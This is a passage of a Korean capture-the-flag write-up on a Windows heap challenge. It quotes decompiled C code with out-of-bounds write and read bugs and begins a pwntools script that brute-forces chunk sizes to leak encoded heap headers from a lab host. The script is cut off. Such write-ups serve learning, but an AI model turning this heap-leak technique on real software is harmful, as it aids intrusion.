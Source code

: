 처음 분석하고 나서 취약점이 있다고 의심이 간 부분은 `2. Edit File content`를 선택하면 실행하는 아래의 코드부분이었습니다.

```c
case 2i64:
// skip for brevity...
heap_mem_len = -1i64;
heam_mem = BEEFDAD0000_mem[idx2_1].heap_mem;
heap_size = BEEFDAD0000_mem[idx2_1].size;
do
  ++heap_mem_len;
while ( heam_mem[heap_mem_len] );
if ( heap_mem_len > heap_size && BEEFDAD0000_mem[idx2_1].magic2 == 0xDDAABEEF1ACDi64 )
{  // if magic2 is not corrupted, heap_size = heap_mem_len...OOB?
  heap_size = -1i64;
  do
    ++heap_size;
  while ( heam_mem[heap_size] );
}

if ( read(0, heam_mem, heap_size) <= 0 ) // potential OOB write
// skip for brevity...

```

주석으로 달아놓은 설명처럼 `heap_mem_len`을 이용한 OOB write가 가능해 보입니다.

`3. Show content`에도 아래와 같이 OOB read가 가능해보이는 코드가 있었습니다.

```c
case 3i64:
    // skip for brevity...
    if ( !BEEFDAD0000_mem[chunk_cnt].heap_mem )
        goto LABEL_59;
    if ( BEEFDAD0000_mem[chunk_cnt].magic1 != 0xDDAABEEF1ACDi64 )
        goto LABEL_59;
    v26 = BEEFDAD0000_mem[chunk_cnt].magic2;
    if ( v26 != 0xDDAABEEF1ACDi64 && v26 != 0xFACE6DA61A35C767i64 )
        goto LABEL_59;

    // potential OOB read, possible to leak _HEAP_ENTRY data
    printf("Content: %s\n", BEEFDAD0000_mem[chunk_cnt].heap_mem); 
    // skip for brevity...
```


그래서 OOB read로 뒤에 위치한 heap chunk의 ( **_HEAP->Encoding**로 인코딩된 ) header를 leak할 수 있는 size들을 찾기 위해 아래와 같이 Brute-force했습니다.

```python
from pwn import *

# context.log_level = "debug"

# HOST = "192.168.56.102" # VirtualBox Host-Only Adapter
HOST = "192.168.0.18" # VirtualBox Bridge 
PORT = 6677

hi = None
sla = None

def alloc(chunk_id, size):
	sla("Your choice: ", str(1))
 	sla("Size:", str(size))
	sla("ID:", str(chunk_id))

def edit(chunk_id, val, need_newline=True):
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
```